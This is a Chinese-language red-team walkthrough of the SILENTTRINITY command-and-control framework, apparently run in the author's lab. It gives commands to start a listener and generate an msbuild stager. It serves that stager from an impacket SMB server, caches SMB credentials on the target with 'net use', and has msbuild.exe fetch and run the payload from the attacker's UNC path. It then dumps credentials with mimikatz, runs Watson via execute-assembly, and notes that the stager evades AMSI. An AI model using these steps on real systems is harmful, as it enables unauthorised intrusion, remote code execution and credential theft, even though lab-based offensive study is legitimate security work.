







# SILENTTRINITY

SILENTTRINITY 是 [byt3bl33d3r](https://twitter.com/byt3bl33d3r) 用python写的一个工具， 它使用Ironpython，为了方便描述，这里我们称之为 ST.

## 安装

安装这个工具和依赖，然后启动。这里包含手动安装最新版和最优秀的 [impacket](https://github.com/SecureAuthCorp/impacket)。

```bash
#Install deps
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket
pip install -r requirements.txt
python setup.py install
​
#Install ST
apt install python3.7 python3.7-dev python3-pip
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY/Server
python3.7 -m pip install -r requirements.txt
​
#Start it up
python3.7 st.py
```




## 监听

继续选择侦听器，将它绑定到IP+端口并启动它。顺便说一下，我把BindIP设置为一个子网，因为我使用VPN连接到测试实验室。没有什么神奇的。

```back@st
listeners
list
use http
options
set BindIP 10.0.8.6
start
```



## Staging

接着生成stager。它将在/opt/SILENTTRINITY/Server目录中终止。

```hack@st
stagers
list
use msbuild
generate http
```


## 运行

现在，找到下载和触发stager的适当方法。到2018年11月，msbuild stager payloads 仍然没能触发Windows1803上的AMSI。

## Serving the payload

一个巧妙的方法是使用SMB服务器来为 payloads 提供服务。下载并使用msbuild 和 到SMB服务器的UNC路径作为参数触发它。

首先创建一个共享文件夹，然后从impacket启动SMB服务器。

```powershell
mkdir /opt/SMB
smbserver.py SMB /opt/SMB -username hacker -password hacker -smb2support -ip 10.0.8.6
```


## 触发 payload

现在我们尝试用msbuild触发payload，但是失败了，因为还没有认证。

```cmd
cp /opt/SILENTTRINITY/Server/msbuild.xml /opt/SMB/msbuild.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\10.0.8.6\SMB\msbuild.xml
```



## 缓存凭证

这里为什么要指定凭证？在Windows 10上，默认情况下不能使用未经身份验证的SMB。据我所知，没有一种方法可以直接给 msbuild 提供凭据。因此，我在主机上摆弄了一下，找到一些技巧来缓存 SMB 服务器的一些凭据。如您所见，我用 hacker/hacker 进行身份验证。当然了这很安全。在目标上， 用 `net use` 命令触发身份验证。这个命令会尝试使用特定的凭证访问smb共享，从而在目标上本地缓存凭证。从运筹学的角度来看，这很不优雅，所以如果大家有更好的方法，可以联系我。

```powershell
net use \\10.0.8.6\smb /user:hacker hacker
```



我们看到，成功进行身份验证和并获得NetNTLMv2哈希。因此，现在在目标上缓存了凭据，我们再次尝试触发 payload。



woc好像发生了什么。。我们回ST里看看。


这下就非常美丽了，我们得到了一个会话，认证的时候复用了缓存的凭证。

## 模块

现在我们列出刚刚获得的会话。因为我从提过权的shell触发了 payload，所以我们有一个提权了的会话。这允许我们做一些事情，比如dump 凭证和其他类型的后期利用。

```bash
sessions
list
```


因此，让我们探索一下ST必须提供的一些后期利用模块。正如你所看到的，ST已经内置了很多模块，貌似还有更多的模块要发布。



我们选择 `mimikatz` 模块并在会话中运行。注意，你必须从会话列表中复制 GUID，以便做好准备。如果你有多个会话，也可以使用 `run all` 在所有会话上运行该模块。

```
modules
list
use mimikatz
options
run GUID
```


运行shell模块


使用 [Watson](https://github.com/rasta-mouse/Watson) 尝试执行`execute-assembly`模块。实际上注意到 ST 会自动补全目前的会话的GUID。按键盘上的 右方向键 来自动补全。

```
modules
use execute-assembly
options
set Assembly /opt/Watson.exe
run GUID
```




在我打过补丁的win10 1803 虚拟机上啥也没发现，这很正常。